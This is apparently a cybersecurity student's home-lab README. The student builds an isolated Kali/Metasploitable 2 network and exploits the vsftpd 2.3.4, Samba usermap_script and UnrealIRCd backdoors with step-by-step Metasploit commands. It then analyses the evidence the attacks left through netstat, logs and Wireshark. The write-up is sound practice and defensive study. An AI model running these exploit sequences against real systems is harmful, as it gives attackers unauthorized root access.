





# homelab101

## Pilot 1x1
Hey, I'm Nour, a first year cybersecurity student, and this is my first project in this field with no prior experience. 
I'm building a simple home lab from scratch: an isolated virtual network where Kali Linux(attack machine) and a vulnerable target VM talk to each other.
Im using this home lab to practice networking, Linux, and scanning/attacking intentionally vulnerable machines in a safe environment. 
I'm documenting every step including some mistakes and fixes I've made along the way.
My goal is to grow into a cloud security engineer in the near future and this project marks the beginning of my journey.

## Architecture I used

| VM | OS | Role | Adapters | IP |
|----|----|------|----------|----|
| Kali | Kali Linux | Attacker | NAT + Internal (homelabnetwork) | 192.168.56.10 |
| VulnerableMachine | Metasploitable 2 | Target | Internal (homelabnetwork) | 192.168.56.30 |

Network: VirtualBox Internal Network named `homelabnetwork`, subnet 192.168.56.0/24 (static configuration), no DHCP, no internet.

## Setup

### Adding the vulnerable target
1. Downloaded Metasploitable 2 (800MB) from the official SourceForge page and extracted the ZIP.
2. Created a VM (Linux, 32-bit, 512 MB RAM) with no ISO, attaching the existing `Metasploitable.vmdk` as its disk.
3. Set Adapter 1 to Internal Network `homelabnetwork` before first boot, so it was never exposed to my real network.
4. Logged in with the default `msfadmin` / `msfadmin` credentials.
5. Set a static IP by editing `/etc/network/interfaces` (static, address 192.168.56.30, netmask 255.255.255.0).

## Testing and verification

**Static IP confirmed on the target:**

**Connectivity from Kali:**

**Isolation check** (target cannot reach the internet):

## Troubleshooting log

- **Major incident: lost all configuration after a reboot.** Cause: a VirtualBox snapshot was restored instead of a normal reboot, because "Restore current snapshot" being ticked in the shutdown dialog. All work since the clean-install snapshot was wiped. The VM was deleted so I had to rebuild it from scratch.
- **New habit I adopted after the rebuild is to:** verify configuration survives a reboot and take a fresh snapshot after every milestone just in case.

## Reconnaissance

Before attacking anything, I mapped the homelabnetwork with nmap from the Kali machine to confirm which hosts were alive:

Then scanned the target for open ports and service versions:

This identified 20+ open ports (FTP, SSH, Telnet, SMTP, DNS, HTTP, SMB, RPC, MySQL, PostgreSQL, VNC, IRC, Tomcat, and more), expected since Metasploitable is deliberately riddled with outdated, vulnerable services for practice.

## First exploit: vsftpd 2.3.4 backdoor

**Target:** 192.168.56.30, port 21 (FTP), vsftpd 2.3.4
**Tool:** Metasploit Framework (msfconsole)
**Module:** exploit/unix/ftp/vsftpd_234_backdoor

### What the vulnerability is
vsftpd 2.3.4's source was compromised in 2011; a backdoor was inserted so that sending a username containing ":)" opens a root shell on port 6200 or 4444 and no authentication is required.

### Steps
1. Identified vsftpd 2.3.4 via `nmap -sV` on port 21.
2. In msfconsole: `search vsftpd` → found `exploit/unix/ftp/vsftpd_234_backdoor`.
3. `use exploit/unix/ftp/vsftpd_234_backdoor`
4. `set RHOSTS 192.168.56.30`
5. `set LHOST 192.168.56.10`
6. `exploit`

### Result
Meterpreter session opened. Entering `getuid` confirmed root access (uid=0, gid=0).

## Second exploit: Samba usermap_script

**Target:** 192.168.56.30, port 139/445 (Samba)
**Tool:** Metasploit Framework (msfconsole)
**Module:** exploit/multi/samba/usermap_script

### What the vulnerability is
Older versions of Samba's (2007 versions 3.0.0 to 3.0.25rc3) "username map script" feature allow shell metacharacters in a submitted username to be passed through to the system shell, resulting in arbitrary command execution. Unlike the vsftpd backdoor which is a deliberately planted trigger, this is a real code-injection vulnerability.

### Steps
1. Identified Samba on ports 139/445 via `nmap -sV` earlier.
2. In msfconsole: `search type:exploit samba` → `exploit/multi/samba/usermap_script`
3. `use exploit/multi/samba/usermap_script`
4. `set RHOSTS 192.168.56.30`
5. `set LHOST 192.168.56.10`
6. `exploit`

### Result
A command shell session opened. Unlike Meterpreter, this shell shows no visible prompt. Confirmed it was live by typing `whoami` blind, which returned `root`.

## Third exploit: UnrealIRCd 3.2.8.1 backdoor

**Target:** 192.168.56.30, port 6667 (IRC)
**Tool:** Metasploit Framework (msfconsole)
**Module:** exploit/unix/irc/unreal_ircd_3281_backdoor

### What the vulnerability is
UnrealIRCd's official source was compromised in 2009; a backdoor was inserted so that any input containing "AB;" followed by a command gets executed directly on the system shell, no authentication required.

### Steps
1. Identified UnrealIRCd on port 6667 via nmap.
2. `use exploit/unix/irc/unreal_ircd_3281_backdoor`
3. `set RHOSTS 192.168.56.30`
4. `set LHOST 192.168.56.10`
5. Initial run failed version check: "not-vulnerable: UnrealIRCd 3.2.8.1 not detected." Nmap's version scan couldn't confirm the exact build from the banner either.
6. Forced the exploit past the check: `set ForceExploit true`, then `exploit`.

### Result
Meterpreter session opened successfully then I confirmed root access with `getuid`.

## Blue Team Analysis: Detecting the Attacks

After exploiting the target, I reviewed it from a defender's perspective to understand what evidence each attack left behind.

### Method
- Re-triggered the vsftpd backdoor exploit from Kali to test that.
- On the target, I checked active connections (`netstat -antp`), running processes (`ps aux`), and system logs (`/var/log/auth.log`, `/var/log/syslog`)

### Findings

**Active connections:** `netstat -antp` showed a live connection from the Kali machine (192.168.56.10) to the target on **port 4444** — the Metasploit reverse handler port used by the vsftpd backdoor session. 
This was the clearest indicator of compromise: an active unexpected connection on a non-standard port.

**Logs:** standard authentication and system logs showed little to nothing useful, since the backdoor bypasses normal login entirely.

## Network-Level Detection: Capturing the Attack with Wireshark (This is my first time using it on a project)

Since Metasploitable 2's outdated OS doesn't support modern host-based monitoring tools like Wazuh, detection was approached at the network level instead by capturing and analyzing the exploit traffic directly with Wireshark.

### Method
- `sudo tcpdump -i eth1 host 192.168.56.30 -w attack-capture.pcap` on Kali, left running while re-triggering the vsftpd backdoor exploit
- Opened the resulting capture.
- Filtered to `ftp` to isolate the initial connection, then to `tcp.port == 4444` to find the follow-up reverse shell connection
- Used **Follow → TCP Stream** on each to read the raw conversation

### Finding 1: The FTP trigger string
The connection to port 21 contained the literal backdoor trigger (`:)`) in the submitted username in plain, readable text (Highlighted in the screenshot below). 
This is a concrete network-level signature an Intrusion detection system could alert on directly.

### Finding 2: The reverse shell connection
A second, separate connection appeared immediately after, on port 4444 — Metasploit's default reverse handler port. Unlike the FTP stream, this traffic is is not human-readable.

### Why this matters
This exploit left two different clues behind. One was easy to spot: the actual text of the attack sitting right there in the FTP traffic. The other was sneakier: just a connection on port 4444 that had no normal reason to exist.

### What I've learned from doing this project : 
Not every attack leaves something you can read. Sometimes the giveaway isn't *what's* in the traffic, it's that the traffic shouldn't be there at all: a weird port, a connection that lingers, timing that doesn't make sense.
A lot of real-world systems are old enough that they can't even run modern monitoring tools, so knowing how to read raw network traffic like this isn't just a lab exercise it's something comes in handy in real world scenarios.

THE END